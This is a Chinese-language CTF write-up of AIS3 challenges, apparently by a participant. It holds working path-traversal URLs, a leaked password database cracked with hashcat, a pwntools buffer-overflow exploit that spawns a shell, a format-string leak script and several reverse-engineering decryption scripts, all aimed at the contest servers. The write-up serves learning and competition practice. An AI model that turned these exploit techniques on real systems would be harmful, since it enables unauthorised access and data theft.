

:::important
最後結算是第 14 名忘記截圖xd，只有留第 10 的時候哈哈。
:::

## Misc

### Welcome


不要複製直接打

:::flag
AIS3{Welcome_And_Enjoy_The_CTF_!}
:::

### Ramen CTF


檔案下載後是一張吃拉麵的照片


關鍵在於右上角的發票可以掃描他的`QRcode`得到:
```
MF1687991111404137095000001f4000001f40000000034785923VG9sG89nFznfPnKYFRlsoA==:**:2:2:1:蝦拉
```

:::note
前面部分就是發票號碼`MF16879911`，日期就是`1140413`，有這些資訊就可以去[發票查詢](https://www.einvoice.nat.gov.tw/portal/btc/audit/btc601w/search)。
:::


這邊不要用名稱直接用地址看(名稱會有問題)


接著就可以在菜單裡面找到發票結尾的拉麵名稱: `蝦拉麵`

:::flag
`AIS3{樂山溫泉拉麵:蝦拉麵}`
:::

### AIS3 Tiny Server - Web / Misc


:::important
進入到網站後有提示 root dir 底下有東西。
:::

所以先嘗試 `http://chals1.ais3.org:20056/../../../../` 但感覺應該是有檔這些符號，所以這邊改用 **url encode** 試試看:
- `.` --> `%2e`
- `/` --> `%2f`

變成: 
```shell
chals1.ais3.org:20056/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f
```


成功進入到 root 接下來就是把 flag 讀出來。

```shell
http://chals1.ais3.org:20056/..%2f..%2f..%2f..%2f..%2freadable_flag_Idh9FYCqbdEtwAux3zmUdtXLjSsnld7U
```

:::flag
AIS3{tInY_weB_$3rveR_W17H_fIL3_8R0Ws1n9_AS_@_Featur3}
:::

## Web

### Tomorin db 🐧


檔案載下來後打開 `main.go`

```go title="main.go"
package main

import "net/http"

func main() {
	http.Handle("/", http.FileServer(http.Dir("/app/Tomorin")))
	http.HandleFunc("/flag", func(w http.ResponseWriter, r *http.Request) {
		http.Redirect(w, r, "https://youtu.be/lQuWN0biOBU?si=SijTXQCn9V3j4Rl6", http.StatusFound)
  	})
  	http.ListenAndServe(":30000", nil)
}
```

發現只要到 `/flag` 就會被跳轉到 youtube 畫面。


可是很明顯 flag 檔案就被放在 `/flag`，所以要找到方法可以不跳轉但是讀到 flag 檔案。
這邊一樣嘗試使用 `url encode` 就成功了。

```shell
http://chals1.ais3.org:30000/%2Fflag
```

:::flag
AIS3{G01ang_H2v3_a_c0O1_way!!!_Us3ing_C0NN3ct_M3Th07_L0l@T0m0r1n_1s_
cute_D0_yo7_L0ve_t0MoRIN?}
:::

### Login Screen 1


檔案下載下來後發現 `init.php` 裡面有 new 一個 **users.db** 所以嘗試存取。

```shell
http://login-screen.ctftime.uk:36368/users.db
```

結果還真的被下載下來，使用 `sqlite3` 去看裡面有甚麼資料。

```sql title="user.db"
sqlite> Select * from users;
1|admin|$2y$10$Hf11AOUj8lw13DogTnS3aOvjD1hPnfsOx8qMKZzG8dGCWujtTRvBC|51756447753485459839
2|guest|$2y$10$/th4ch2sGdetYaEoNrkC7O5m2cvvKo.21EBLOweMlaqXuec6k8E1y|000000
```

根據前面登入進去 guest 的提示 2FA 是 `000000`，所以可以推斷 admin 的 2FA 就是 **51756447753485459839**。

接下來使用 `hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt` 去爆破密碼得到密碼居然也是 **admin**。


:::flag
AIS3{1.Es55y_SQL_1nJ3ct10n_w1th_2fa_IuABDADGeP0}
:::

## Pwn

### Welcome to the World of Ave Mujica🌙


執行:


接下來丟到 IDA 裡面:

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[143]; // [rsp+0h] [rbp-A0h] BYREF
  char s[8]; // [rsp+8Fh] [rbp-11h] BYREF
  unsigned __int8 int8; // [rsp+97h] [rbp-9h]
  char *v7; // [rsp+98h] [rbp-8h]

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  printf("\x1B[2J\x1B[1;1H");
  printf("\x1B[31m");
  printf("%s", (const char *)banner);
  puts(&byte_402A78);
  puts(&byte_402AB8);
  fgets(s, 8, stdin);
  v7 = strchr(s, 10);
  if ( v7 )
    *v7 = 0;
  if ( strcmp(s, "yes") ) //這邊要回答 yes 其他都不行
  {
    puts(&byte_402AE8);
    exit(1);
  }
  printf(&byte_402B20);
  int8 = read_int8();
  printf(&byte_402B41);
  read(0, buf, int8);
  return 0;
}
```

可以發現一開始被問問題的時候要先回答 `yes` 才可以繼續。


接下來會問說長度跟名字，所以我就覺得這邊應該可以 bof 加上 IDA 裡面有一個 function 名稱叫做: `Welcome_to_the_world_of_Ave_Mujica()` 裡面會開 shell。

```asm
-00000000000000A0     char buf[143];
-0000000000000011     char s[8];
-0000000000000009     _BYTE var_9;
-0000000000000008     _QWORD var_8;
+0000000000000000     _QWORD __saved_registers;
+0000000000000008     _UNKNOWN *__return_address;
```

因為 buf 被設定成 143 大小，而且從 buf 到 return address 也要 `A0 + 8` 也就是 **168** 個 padding，但是輸入完長度其實會到 `read_int8()` 去 check 長度是不是大於 **127**，如果是程式就會結束運行。

這時候回頭看組語發現他 read 長度是存放在 `RAX` 裡面，可是外面讀取的時候是用 **al**。

```asm
.text:000000000040130F                 call    _read
.text:0000000000401314                 lea     rax, [rbp+buf]
.text:0000000000401318                 mov     rdi, rax        ; nptr
.text:000000000040131B                 call    _atoi
.text:0000000000401320                 mov     [rbp+var_4], eax
.text:0000000000401323                 cmp     [rbp+var_4], 7Fh
.text:0000000000401327                 jle     short loc_401342
.text:0000000000401329                 lea     rax, byte_402A38
.text:0000000000401330                 mov     rdi, rax        ; s
.text:0000000000401333                 call    _puts
.text:0000000000401338                 mov     edi, 1          ; status
.text:000000000040133D                 call    _exit
```

外面讀取:

```asm
.text:0000000000401482                 mov     [rbp+var_9], al
```

:::important
也就是說我今天輸入一個負數那他就會通過前面的 127 長度測試，並且因為是負數所以直接讀 al 位置又會變成正整數。利用這個點就可以寫 exploit 了。
:::

```python title="exploit.py"
#print("A" * 168 + 'B' * 8)
from pwn import *

#p = process('./chal')

p = remote('chals1.ais3.org', '60255')
p.recvuntil('你願意把剩餘的人生交給我嗎?\n')
p.sendline('yes')

p.recvuntil('告訴我你的名字的長度:')
p.sendline("-20")

p.recvuntil('告訴我你的名字:')

payload = b'A' * 168
payload += p64(0x401256)
p.sendline(payload)

p.interactive()
```

:::flag
AIS3{Ave Mujica🎭將奇蹟帶入日常中🛐(Fortuna💵💵💵)...Ave Mujica🎭為你獻上慈悲憐
憫✝️(Lacrima😭🥲💦)..._9be8fabfb7bf8785da6a455cfea4683b}
:::

### Format Number


先執行看看。


看到題目叫做 Format Number 所以可以猜到這題是跟 format string 有關。

```cpp title="chal.c"
#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <time.h>
#include <ctype.h>
#include <string.h>


void check_format(char *format) {
    for (int i = 0; format[i] != '\0'; i++) {
        char c = format[i];
        if (c == '\n') {
            format[i] = '\0';
            return;
        }
        if (!isdigit(c) && !ispunct(c)) {
            printf("Error format !\n");
            exit(1);
        }
    }
}

int main() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);

    srand(time(NULL));
    int number = rand();
    int fd = open("/home/chal/flag.txt", O_RDONLY);
    char flag[0x100] = {0};
    read(fd, flag, 0xff);
    close(fd);
    
    char format[0x10] = {0};
    printf("What format do you want ? ");
    read(0, format, 0xf);
    check_format(format);

    char buffer[0x20] = {0};
    strcpy(buffer, "Format number : %3$");
    strcat(buffer, format);
    strcat(buffer, "d\n");
    printf(buffer, "Welcome", "~~~", number);

    return 0;
}
```

:::warning
在 `check_format` 讓我們只能輸`數字`跟`標點符號`，其他全部擋掉了。再來看一下我們輸入進去的 format 前後也被指定了: 
`%3$` + user_input + `d`
:::

這邊我的想法是需要截斷前面所以經過嘗試發現可以使用 `]` 當作截斷前面指令。(無效前面的 %3$)
截斷之後接下來就是要往後讀多少才可以碰到 flag 開檔後的 `fd`。


從這邊可以發現我拿的是第 3 個位置的資料得到 `185518987` 也就是 `0xB0ECB8B` 而它的記憶體位址在 `0xffffd0dc` 回推起始位置就是 **0xffffd0d0**，所以起始的 offset 是 **0x0d0**。


:::important
回到 IDA 可以看到 `fd` 是在 offset **0x150**，也就是說從起始位址到 `fd` 開頭要 `0x150 - 0x0d0 = 80` 再去除 4 所以得到從 **20 開始** 可以讀取到 flag 資料，所以後面就一直往後讀到 `0x7d (})` 為止。
:::

```python title="exploit.py"
from pwn import *

i = 20
a = 0
flag = ""
prefix = "]%"
suufix = "$"

while a != "7D": 
    p = remote('chals1.ais3.org', 50960)
    temp = prefix + str(i) + suufix
    p.sendlineafter("What format do you want ? ", temp)
    p.recvuntil("Format number : %]")
    a = p.recv()
    flag += chr(int(a))
    print(flag)
    i += 1
```

:::flag
AIS3{S1d3_ch@nn3l_0n_fOrM47_strln&_!!!}
:::

## Reverse

### AIS3 Tiny Server - Reverse (first blood)


把檔案丟到 IDA 裡面後開始分析，在點旁邊的 function 過程找到了一個看起來很像是在算 flag 的地方:

```cpp
_BOOL4 __cdecl sub_1E20(int a1)
{
  unsigned int v1; // ecx
  char v2; // si
  char v3; // al
  int i; // eax
  char v5; // dl
  _BYTE v7[10]; // [esp+7h] [ebp-49h] BYREF
  int v8[11]; // [esp+12h] [ebp-3Eh]
  __int16 v9; // [esp+3Eh] [ebp-12h]

  v1 = 0;
  v2 = 0x33;
  v9 = 20;
  v3 = 0x72;
  v8[0] = 0x58382033;
  v8[1] = 0x475C2812;
  v8[2] = 0xF2D5229;
  v8[3] = 0xE0A5A;
  v8[4] = 0x5013580F;
  v8[5] = 0x34195A19;
  v8[6] = 0x43333158;
  v8[7] = 0x5A044113;
  v8[8] = 0x2C583419;
  v8[9] = 0x3465333;
  v8[10] = 0x4A4A481E;
  qmemcpy(v7, "rikki_l0v3", sizeof(v7));
  while ( 1 )
  {
    *((_BYTE *)v8 + v1++) = v2 ^ v3;
    if ( v1 == 45 )
      break;
    v2 = *((_BYTE *)v8 + v1);
    v3 = v7[v1 % 0xA];
  }
  for ( i = 0; i != 45; ++i )
  {
    v5 = *(_BYTE *)(a1 + i);
    if ( !v5 || v5 != *((_BYTE *)v8 + i) )
      return 0;
  }
  return *(_BYTE *)(a1 + 45) == 0;
}
```

把下面的 While 迴圈逆向出來就是答案:

```python title="exploit.py"
def decrypt():
    v1 = 0
    v2 = 0x33
    v3 = 0x72
    v7 = b"rikki_l0v3"

    v8_ints = [
        0x58382033,
        0x475C2812,
        0x0F2D5229,
        0x000E0A5A,
        0x5013580F,
        0x34195A19,
        0x43333158,
        0x5A044113,
        0x2C583419,
        0x03465333,
        0x4A4A481E,
    ]

    v8_bytes = bytearray()
    for val in v8_ints:
        v8_bytes += val.to_bytes(4, byteorder='little')

    # Fill to 45 bytes if needed
    while len(v8_bytes) < 45:
        v8_bytes.append(0)

    result = ""

    while v1 < 45:
        out_byte = v2 ^ v3
        result += chr(out_byte)
        v8_bytes[v1] = out_byte
        v1 += 1
        if v1 == 45:
            break
        v2 = v8_bytes[v1]
        v3 = v7[v1 % 10]

    return result

print("[+] Correct input for sub_1E20():")
print(decrypt())

```

:::flag
AIS3{w0w_a_f1ag_check3r_1n_serv3r_1s_c00l!!!}
:::

### A_simple_snake_game


題目載下來後打開來發現是貪吃蛇遊戲，並且沒命之後幾秒整個遊戲會關掉。

找到解 flag 的思路是因為遊戲是動態的，所以應該會有 Update 的地方，所以開始查看 `__ZN9SnakeGame6Screen6updateEiib` 再來因為 flag 應該會是 text 所以在底下的 `__ZN9SnakeGame6Screen8drawTextEii` 看到 if else 並且 else 的地方看起來像是在做解 flag 的動作。

所以這邊下斷點之後直接動態跑起來。


動態跑起來後把兩個 `jle` 跳轉到 false 那條路。

:::tip
`jle` 要跳轉到 false 那條路，要把 SF 跟 ZF 都設定成 0。
:::


```asm
.text:00E82B3E xor     dl, [ebp+var_F5]
.text:00E82B44 mov     [eax], dl
.text:00E82B46 add     [ebp+var_1C], 1
.text:00E82B4A jmp     short loc_E82AD9
```

這邊做完 `xor` 會把資料存到 `eax` 的記憶體位址裡面。所以直接動態把所有值跑完進去記憶體裡面看算好的 flag。


:::flag
AIS3{CH3aT_Eng1n3?_0fcau53_I_bo_1T_by_hAnD}
:::

### verysafe_image_encrypter (first blood)


:::important
把程式拖到 IDA 裡面動態分析，前面有點像是在做`解殼`的動作，3 個 function 跑完後到最下面的 jmp 才會跳到主要執行的程式。
:::


繼續動態追 code 找到加密照片的地方。


```asm
00401556 movzx   edx, byte ptr [eax] //把 input 的一個 bytes 拿出來
00401559 xor     dl, [ebp-1Ch]       //跟 'r' 做 xor
00401572 add     edx, 4              //把 xor 的值加 4
00401575 mov     [eax], dl           //最後的值存到記憶體(也就是最後 encrypt 的值)
```

:::important
可以知道解密只需要對每個 byte 去做 `-4 再 xor 0x72('r')` 就可以拿到原始圖片。
:::

```python title="exploit.py"
# 檔案名稱
input_file = "encrypted_image_notchange.png"
output_file = "decrypted_image.png"

def decode_byte(b):
    return ((b - 4) & 0xFF) ^ 0x72

with open(input_file, "rb") as f_in:
    encrypted_data = f_in.read()

# 對每個 byte 做處理
decrypted_data = bytes(decode_byte(b) for b in encrypted_data)

# 寫入解密後的檔案
with open(output_file, "wb") as f_out:
    f_out.write(decrypted_data)

print(f"[+] 解密完成，輸出檔案：{output_file}")
```


:::flag
AIS3{rwx_53gm3nttt_s0_5AS}
:::

### BabyUnicorn


這題的整體架構就是使用 python 的 `unicorn` 去模擬 x86-32 bits mode，會執行的指令就是 `chal.py` 最上面的那堆 shellcode，所以這邊把 shellcode 存成 .bin 檔案丟給 IDA 解指令。


程式一開始會先比對 `esi` 如果對了就跳轉到指定標籤。而 `esi` 一開始被設定成 **2**。

```python
mu.reg_write(UC_X86_REG_ESI, 0x2) # esi = 2
```

跳轉到 `loc_13F8`。


這邊會先設定起始是 `0x28` 並且下面的 idiv 會把商放到 `EAX` 餘數放到 `EDX` 並且取用 flag 的哪個位置資料是看 `EDX` 也表示 **EDX 會一直在 0x0~0x2F 輪迴**，就看開始值跟每次要跑幾圈再跳出去，像截圖就是 `cmp esi, 51h`。

結束後碰到 `int 61h` 會有 **exception** 但 python 這邊有 hook exception 用的 function 所以會跳過去。

```python
def hook_exception(uc, exception_type, user_data): #用來重置 eip 並且設定 esi = int
    global ck
    if ck == 1 and exception_type == 0x2d:
        exit()
    if exception_type == 0x2d:
        ck = 1
    
    EIP = ADDRESS_CODE
    ESI = exception_type
    uc.reg_write(UC_X86_REG_EIP, EIP)
    uc.reg_write(UC_X86_REG_ESI, ESI)
```

這邊會把 `ESI` 設定成剛剛 `int 61h` 後面的 `61h` 並且把 `EIP` 指到最一開始也就是比對跳轉那邊，然後就可以重新比對再做 xor 加密。

因為每個區塊都差不多，所以觀察到他會重複跳到連續兩次的 exxception type 是 `0x2d` 之後就不會重新設定，反而往下走到 `loc_3ED` 去比對 flag 是不是正確(這邊 0x3fc 會被 hook 去 python 那邊)


可以看到 `chal.py` 裡面的 `hook_code` 是每次執行一條指令也都會執行的，所以在這邊拿每次 xor 的位置並且 dump 出來。

```python
def hook_code(uc, address, size, user_data):

    # instruction = uc.mem_read(address, size)
    # registers = {
    #     "EAX": UC_X86_REG_EAX,
    #     "EBX": UC_X86_REG_EBX,
    #     "ECX": UC_X86_REG_ECX,
    #     "EDX": UC_X86_REG_EDX,
    #     "ESI": UC_X86_REG_ESI,
    #     "EDI": UC_X86_REG_EDI,
    #     "EBP": UC_X86_REG_EBP,
    #     "ESP": UC_X86_REG_ESP,
    #     "EIP": UC_X86_REG_EIP,
    #     "EFLAGS": UC_X86_REG_EFLAGS
    # }
    # reg_dump = ""
    # for name, reg in registers.items():
    #     value = uc.reg_read(reg)
    #     reg_dump += f"{name}: {value:08X}\n"
    
    # try:
    #     flag_bytes = uc.mem_read(FLAG_ADDR, FLAG_LEN)
    #     flag_str = " ".join(f"{b:02X}" for b in flag_bytes)
    #     reg_dump += f"\nflag: {flag_str}\n"
    # except Exception as e:
    #     reg_dump += f"\nflag: <mem_read failed: {e}>\n"


    # reg_dump += "\n" + "="*32 + "\n\n"
    # #print(reg_dump)

    # # 寫入檔案
    # with open("reg_log.txt", "a") as f:
    #     f.write(reg_dump)
    instruction = uc.mem_read(address, size)

    # ========== [1] 嘗試抓前一條是否是 movzx eax, byte ptr [esp + reg + disp8] ==========
    try:
        prev = uc.mem_read(address - 5, 5)
        if prev[0] == 0x0F and prev[1] == 0xB6 and prev[2] == 0x44 and prev[3] == 0x14:
            disp8 = prev[4]
            esp = uc.reg_read(UC_X86_REG_ESP)
            edx = uc.reg_read(UC_X86_REG_EDX)  # 因為 index=2 → edx
            final_addr = (esp + edx + disp8) & 0xFFFFFFFF
            val = uc.mem_read(final_addr, 1)[0]

            write_log("flag[" + str(final_addr - 0x02003F20) + "]")
        elif prev[0] == 0x0F and prev[1] == 0xB6 and prev[2] == 0x44 and prev[3] == 0x3C:
            disp8 = prev[4]
            esp = uc.reg_read(UC_X86_REG_ESP)
            edi = uc.reg_read(UC_X86_REG_EDI)  # 因為 index=2 → edx
            final_addr = (esp + edi + disp8) & 0xFFFFFFFF
            val = uc.mem_read(final_addr, 1)[0]

            write_log("flag[" + str(final_addr - 0x02003F20) + "]")
    except Exception as e:
        pass

    # ========== [2] 處理 xor 類指令 ==========
    instruction = uc.mem_read(address, size)
    if instruction[0] == 0x30:  # xor r/m8, r8
        modrm = instruction[1]
        mod = (modrm >> 6) & 0b11
        reg = (modrm >> 3) & 0b111
        rm  = modrm & 0b111

        if rm == 4:  # SIB follows
            sib = instruction[2]
            scale = (sib >> 6) & 0b11
            index = (sib >> 3) & 0b111
            base  = sib & 0b111
            offset = 0
            offset_size = 0

            if mod == 1:
                offset = int.from_bytes(instruction[3:4], byteorder='little', signed=True)
                offset_size = 1
            elif mod == 2:
                offset = int.from_bytes(instruction[3:7], byteorder='little', signed=True)
                offset_size = 4

            base_val = uc.reg_read(reg_id_to_unicorn(base))
            index_val = uc.reg_read(reg_id_to_unicorn(index))
            addr = (base_val + (index_val << scale) + offset) & 0xFFFFFFFF
            write_log("flag[" + str(addr - 0x02003F20) + "] = " + "flag[" + str(addr - 0x02003F20) + "] ^ top_value")

        elif mod == 0 and rm != 5:
            base_val = uc.reg_read(reg_id_to_unicorn(rm))
            write_log("flag[" + str(addr - 0x02003F20) + "] = " + "flag[" + str(addr - 0x02003F20) + "] ^ top_value")

        elif mod == 1:
            disp = int.from_bytes(instruction[2:3], byteorder='little', signed=True)
            base_val = uc.reg_read(reg_id_to_unicorn(rm))
            addr = base_val + disp
            write_log("flag[" + str(addr - 0x02003F20) + "] = " + "flag[" + str(addr - 0x02003F20) + "] ^ top_value")

        elif mod == 2:
            disp = int.from_bytes(instruction[2:6], byteorder='little', signed=True)
            base_val = uc.reg_read(reg_id_to_unicorn(rm))
            addr = base_val + disp
            write_log("flag[" + str(addr - 0x02003F20) + "] = " + "flag[" + str(addr - 0x02003F20) + "] ^ top_value")
    
    instruction = uc.mem_read(address, size)
    if instruction[0] == 0xCD:
        if instruction[1] == 0x6:
            EIP = ADDRESS_CODE
            ESI = 0x6
            uc.reg_write(UC_X86_REG_EIP, EIP)
            uc.reg_write(UC_X86_REG_ESI, ESI)
```

最後得到(因為排版問題所以長得有點奇怪):
`top_value` 指的是他上一行的值。(ex: 第 2 行的 top_value = flag[40])

```python
flag[40]
flag[0] = flag[0] ^ top_value
flag[41]
flag[1] = flag[1] ^ top_value
flag[42]
flag[2] = flag[2] ^ top_value
flag[43]
flag[3] = flag[3] ^ top_value
flag[44]
flag[4] = flag[4] ^ top_value
flag[45]
flag[5] = flag[5] ^ top_value
flag[46]
flag[6] = flag[6] ^ top_value
flag[0]
flag[7] = flag[7] ^ top_value
flag[1]
flag[8] = flag[8] ^ top_value
flag[2]
flag[9] = flag[9] ^ top_value
flag[3]
flag[10] = flag[10] ^ top_value
flag[4]
flag[11] = flag[11] ^ top_value
flag[5]
flag[12] = flag[12] ^ top_value
flag[6]
flag[13] = flag[13] ^ top_value
flag[7]
flag[14] = flag[14] ^ top_value
flag[8]
flag[15] = flag[15] ^ top_value
flag[9]
flag[16] = flag[16] ^ top_value
...
...
...
```

剛剛上面的檔案把它 dump 成一個 txt : `flag_xor_log.txt`，最後請 ChatGPT 寫一個 python script 整理資料推回去。

```python title="exploit.py"
# 最後的 flag（XOR 後的結果）
final_flag = [
    0x5a, 0x60, 0x61, 0x0f, 0x08, 0x29, 0x42, 0x32, 0x25, 0x23, 0x42, 0x68, 0x4b, 0x41, 0x63, 0x55,
    0x37, 0x43, 0x6a, 0x50, 0x40, 0x6f, 0x2e, 0x66, 0x49, 0x7f, 0x09, 0x66, 0x79, 0x7c, 0x37, 0x18,
    0x5d, 0x35, 0x46, 0x41, 0x37, 0x0f, 0x19, 0x1c, 0x30, 0x79, 0x29, 0x69, 0x0a, 0x46, 0x3b
]

# 讀取 XOR 操作 log 檔
with open("flag_xor_log.txt", "r") as f:
    lines = [line.strip() for line in f if line.strip()]

# 擷取每組 XOR 操作
ops = []
for i in range(0, len(lines), 2):
    top = int(lines[i][5:-1])  # e.g. "flag[40]"
    dest = int(lines[i + 1].split(']')[0].split('[')[1])  # e.g. "flag[0] = ..."
    ops.append((dest, top))

# 反向操作 XOR（因為 XOR 可逆）
ops.reverse()
flag = final_flag.copy()
for dest, top in ops:
    flag[dest] ^= flag[top]

# 輸出 ASCII
print("Recovered flag (ascii):", ''.join(chr(b) if 32 <= b < 127 else '.' for b in flag))
print("Recovered flag (hex):", flag)
re = ""

for i in flag:
    re += chr(i)

print(re)
```

:::flag
AIS3{UniCorn_2.1.3_fk_s1ow_BUT_this_chal_cool?}
:::

>這題蠻有趣的